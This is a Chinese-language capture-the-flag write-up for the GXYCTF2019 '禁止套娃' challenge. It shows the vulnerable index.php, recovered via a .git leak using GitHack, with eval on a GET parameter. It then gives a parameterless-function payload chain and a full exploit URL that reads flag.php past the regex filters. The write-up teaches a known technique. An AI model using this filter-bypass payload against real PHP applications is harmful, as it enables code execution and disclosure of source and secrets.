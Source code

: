 # [[GXYCTF2019]禁止套娃](https://www.cnblogs.com/gtx690/p/13280186.html)

目录遍历发现/.git泄露

![](https://img2020.cnblogs.com/blog/1658967/202007/1658967-20200710162905922-1581735125.png)

 使用GitHack工具进行利用

https://github.com/lijiejie/GitHack

执行命令后会得到index.php

![复制代码](https://common.cnblogs.com/images/copycode.gif)

 1 <?php
 2 include "flag.php";
 3 echo "flag在哪里呢？<br>";
 4 if(isset($_GET['exp'])){
 5     if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
 6         if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
 7             if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
 8                 // echo $_GET['exp'];
 9                 @eval($_GET['exp']);
10 }
11             else{
12                 die("还差一点哦！");
13 }
14 }
15         else{
16             die("再好好想想！");
17 }
18 }
19     else{
20         die("还想读flag，臭弟弟！");
21 }
22 }
23 // highlight_file(__FILE__);
24 ?>

![复制代码](https://common.cnblogs.com/images/copycode.gif)

没有看懂第6行代码的正则过滤，查看了其他大佬的wp，总结一下

可以看到第9行@eval($_GET['exp']);是一句话木马  
第5行的if过滤的是常用伪协议  
第6行的if，(?R)引用当前表达式，后面加了?递归调用，只能匹配通过无参数的函数，所以一个合法的表达式可以是a(b();)，括号和字符组成的  
第7行的if，正则匹配掉了et|na|info|dec|bin|hex|oct|pi|log关键字

通过目录遍历可以知道flag.php在当前目录下面，我们可以使用函数scandir(".")扫描当期目录，问题是如何构造a(b();)类型

我们可以通过current(localeconv())构造"."

var_dump(current(localeconv()));

运行结果

string(1) "."

使用如下语句便可以发现当期目录下的文件

var_dump(scandir(current(localeconv())));

![](https://img2020.cnblogs.com/blog/1658967/202007/1658967-20200710170519541-811527583.png)

 然后我们可以使用readfile()或highlight_file()或show_source()读取flag。因为flag.php在倒数第二个位置，所以需要将数组翻转，使用next()指向下一个数组位置

payLoad：

http://1110e0a5-3530-43e1-a6f0-9cd89da115f4.node3.buuoj.cn/?exp=var_dump(show_source(next(array_reverse(scandir(current(localeconv()))))));